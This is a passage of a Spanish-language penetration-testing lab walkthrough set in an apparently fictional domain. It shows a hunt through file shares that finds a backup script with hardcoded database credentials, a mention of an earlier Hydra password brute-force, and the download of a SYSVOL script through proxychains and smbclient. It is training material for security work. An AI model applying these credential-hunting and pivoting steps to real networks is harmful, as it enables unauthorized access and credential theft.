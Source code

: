 Revisando el archivo, vemos que es algún tipo de script de respaldo con credenciales codificadas para `backupadm`, otra contraseña con patrón de teclado. Estoy notando una tendencia en esta organización. Quizás el mismo administrador configuró esto como el que configuró la contraseña que forzamos con `Hydra` anteriormente, ya que esto está relacionado con el desarrollo.

  Share Hunting

```r
cat SQL\ Express\ Backup.ps1 

$serverName = ".\SQLExpress"
$backupDirectory = "D:\backupSQL"
$daysToStoreDailyBackups = 7
$daysToStoreWeeklyBackups = 28
$monthsToStoreMonthlyBackups = 3

[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SMO") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoExtended") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.ConnectionInfo") | Out-Null
[System.Reflection.Assembly]::LoadWithPartialName("Microsoft.SqlServer.SmoEnum") | Out-Null
 
$mySrvConn = new-object Microsoft.SqlServer.Management.Common.ServerConnection
$mySrvConn.ServerInstance=$serverName
$mySrvConn.LoginSecure = $false
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "<REDACTED>"

$server = new-object Microsoft.SqlServer.Management.SMO.Server($mySrvConn)
```

Antes de intentar usar esta cuenta en algún lugar, investiguemos un poco más. Hay un archivo .vbs interesante en el share SYSVOL, que es accesible para todos los usuarios del dominio.

  Share Hunting

```r
     },
       "INLANEFREIGHT.LOCAL/scripts/adum.vbs": {
           "atime_epoch": "2022-06-01 14:34:41",
           "ctime_epoch": "2022-06-01 14:34:41",
           "mtime_epoch": "2022-06-01 14:34:39",
           "size": "32.15 KB"
```

Podemos descargarlo nuevamente con `smbclient`.

  Share Hunting

```r
proxychains smbclient -U ssmalls '//172.16.8.3/sysvol' 

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
Enter WORKGROUP\ssmalls's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  1 14:10:57 2022
  ..                                  D        0  Wed Jun  1 14:10:57 2022
  INLANEFREIGHT.LOCAL                Dr        0  Wed Jun  1 14:10:57 2022
smb: \INLANEFREIGHT.LOCAL\> cd scripts
smb: \INLANEFREIGHT.LOCAL\scripts\> ls
  .                                   D        0  Wed Jun  1 14:34:41 2022
  ..                                  D        0  Wed Jun  1 14:34:41 2022
  adum.vbs                            A    32921  Wed Jun  1 14:34:39 2022

		10328063 blocks of size 4096. 8177920 blocks available
smb: \INLANEFREIGHT.LOCAL\scripts\> get adum.vbs 
```